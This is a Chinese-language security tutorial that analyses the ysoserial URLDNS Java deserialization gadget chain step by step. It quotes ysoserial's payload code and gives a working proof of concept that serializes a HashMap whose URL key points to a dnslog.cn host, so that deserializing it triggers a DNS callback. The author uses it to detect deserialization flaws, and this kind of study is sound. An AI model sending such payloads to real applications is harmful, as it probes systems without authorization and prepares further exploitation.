

# Java安全学习—URLDNS链

Author: H3rmesk1t

# 前言
> `URLDNS`是`ysoserial`中的一条利用链，通常用于检测是否存在`Java`反序列化漏洞，该利用链具有如下特点

```php
[1] URLDNS 利用链只能发起 DNS 请求，并不能进行其它利用
[2] 不限制 jdk 版本，使用 Java 内置类，对第三方依赖没有要求
[3] 目标无回显，可以通过 DNS 请求来验证是否存在反序列化漏洞
```

# 原理
> `java.util.HashMap`实现了`Serializable`接口，重写了`readObject`, 在反序列化时会调用`hash`函数计算`key`的`hashCode`，而`java.net.URL`的`hashCode`在计算时会调用`getHostAddress`来解析域名, 从而发出`DNS`请求

# 分析过程
> 这里跟着`ysoserial`项目中`URLDNS`的`Gadget`来分析

```java
Gadget Chain:
    HashMap.readObject()
    HashMap.putVal()
    HashMap.hash()
    URL.hashCode()
```
> 先跟进`HashMap`，看看其自己实现的`readObject()`函数，这里通过`for`循环来将`HashMap`中存储的`key`通过`K key = (K) s.readObject();`来进行反序列化，在这之后调用`putVal()`和`hash()`函数


> 先跟进`hash()`函数看看是如何实现的，当`key!=null`时会调用`hashCode()`函数


> 跟进`hashCode()`函数，由于在`ysoserial`中的`URLDNS`是利用`URL`对象，于是跟进`Java`基本类`URL`中关于`hashCode()`的部分`java/net/URL.java`，由于`hashCode`的值默认为`-1`，因此会执行`hashCode = handler.hashCode(this);`



> 看看`handler.hashCode()`函数是如何实现的，这里利用一个`Demo`代码来调试看看

```java
import java.net.URL;

public class URLDemo {
    public static void main(String[] args) throws Exception {
        URL url = new URL("http://6ppzw1.dnslog.cn");
        url.hashCode();
    }
}
```
> 先看看请求之后的结果，成功触发了`DNS`请求，来看看是如何实现的


> 调试跟进`java/net/URLStreamHandler.java`中的`hashCode()`函数，可以看到这里调用了一个函数`getHostAddress()`来进行`DNS`解析返回对应的`IP`


> 在`ysoserial`中是通过`put()`函数来触发的，其实这一步的实现和前面的是一样的，都是通过`hash()`函数来实现的


> 但是上面的分析过程仿佛和反序列化并没有什么关联，其实当`HashMap`传入一个`URL`对象时，会进行一次`DNS`解析，并且`HashMap`实现了`Serializable`接口，重写了`readObject`，也就是说当一个`Java`应用存在反序列化漏洞时，可以通过传入一个序列化后的`HashMap`数据(将`URL`对象作为`key`放入`HashMap`中)，当传入的数据到达该`Java`应用的反序列化漏洞点时，这时程序就会调用`HashMap`重写的`readObject()`函数来反序列化读取数据，进而触发`key.hashCode()`函数进行一次`DNS`解析

# ysoserial 项目代码分析
> 在`ysoserial`项目中`URLDNS`的代码并没有这么简单，还有一些其他的代码段，来看看这些"多余的"代码的用处是啥

```java
public class URLDNS implements ObjectPayload<Object> {
        public Object getObject(final String url) throws Exception {
                URLStreamHandler handler = new SilentURLStreamHandler();
                HashMap ht = new HashMap();
                URL u = new URL(null, url, handler);
                ht.put(u, url); 
                Reflections.setFieldValue(u, "hashCode", -1);
                return ht;
        }
        public static void main(final String[] args) throws Exception {
                PayloadRunner.run(URLDNS.class, args);
        }
        static class SilentURLStreamHandler extends URLStreamHandler {

                protected URLConnection openConnection(URL u) throws IOException {
                        return null;
                }
                protected synchronized InetAddress getHostAddress(URL u) {
                        return null;
                }
        }
}
```
> 这里通过继承`URLStreamHandler`类，重写`openConnection()`和`getHostAddress()`函数，而这里重写的目的在于: `HashMap#put`时也会调用`getHostAddress()`函数进行一次`DNS`解析，这里就是通过重写的`getHostAddress()`函数来覆盖掉原函数，从而使其不进行`DNS`解析，避免在`Payload`在创建的时候进行`DNS`解析

> 代码`Reflections.setFieldValue(u, "hashCode", -1);`中的`setFieldValue()`函数是`ysoserial`项目自定义的一个反射类中的函数

```java
public class Reflections {
    public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
}
```
> 上述代码通过反射来设置`URL`类的`hashCode`的值为`-1`，这是因为在`HashMap#put`时已经调用过一次`hashCode()`函数，`hashCode`的值会改变不再为`-1`，这样会导致在下一步经过`HashMap`的`readObject()`函数反序列化时直接返回`hashCode`的值，不再调用`handler.hashCode(this)`，因此利用反射来将`hashCode`的值设为`-1`

> 最后利用`PayloadRunner.run()`来进行反序列化

##  POC链

```java
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.net.URL;
import java.text.SimpleDateFormat;
import java.util.Date;
import java.util.HashMap;

public class URLDemo {

    public static void main(String[] args) throws Exception {
        Date nowTime = new Date();
        HashMap hashmap = new HashMap();
        URL url = new URL("http://lttx9f.dnslog.cn");
        SimpleDateFormat simpleDateFormat = new SimpleDateFormat("yyyy-MM-dd hh:mm:ss");
        Field filed = Class.forName("java.net.URL").getDeclaredField("hashCode");
        filed.setAccessible(true);  // 绕过Java语言权限控制检查的权限
        filed.set(url, 209);
        hashmap.put(url, 209);
        System.out.println("当前时间为: " + simpleDateFormat.format(nowTime));
        filed.set(url, -1);

        try {
            FileOutputStream fileOutputStream = new FileOutputStream("./dnsser");
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
            objectOutputStream.writeObject(hashmap);
            objectOutputStream.close();
            fileOutputStream.close();

            FileInputStream fileInputStream = new FileInputStream("./dnsser");
            ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
            fileInputStream.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

> 从请求结果中可以看出，在`Payload`生成阶段并没有发起`DNS`解析，而是在后续反序列化过程中进行的请求

